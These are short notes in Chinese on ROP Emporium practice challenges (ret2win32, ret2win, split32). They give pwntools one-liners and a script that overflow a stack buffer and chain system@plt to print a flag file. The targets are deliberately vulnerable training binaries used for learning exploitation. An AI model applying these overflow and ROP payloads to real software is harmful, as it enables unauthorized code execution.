 # ROP Emporium - Notes
> 一個練習 ROP 的網站，題目可以去官方抓
> [官方](https://ropemporium.com/)

## ret2win32

保護只有開 DEP ，看 Code 很明顯有 stack overflow 洞在

然後只要跳到 ret2win() 這個函數即可

```
$ python -c 'from pwn import * ; print "a"*44 + p32(0x08048659)' | ./ret2win32
```

## ret2win

同上題，只是改成x64
```
$ python -c 'from pwn import * ; print "a"*40 + p64(0x400811)' | ./ret2win
```

## split32

一樣只有開 DEP 保護，然後這題有提供一個函數使用

```
int usefulFunction()
{
  return system("/bin/ls");
}
```

和一個可用的字串
```
.data:0804A030                 public usefulString
.data:0804A030 usefulString    db '/bin/cat flag.txt',0
```

所以我們可以寫 payload

```python
#!/usr/bin/env python
from pwn import *
context.arch = 'i386'

r = process('/tmp/p/split32')

trash = 'a'*44
system_plt = 0x8048430

r.sendline(trash + flat([system_plt, 0, 0x804A030]))


r.interactive()
```
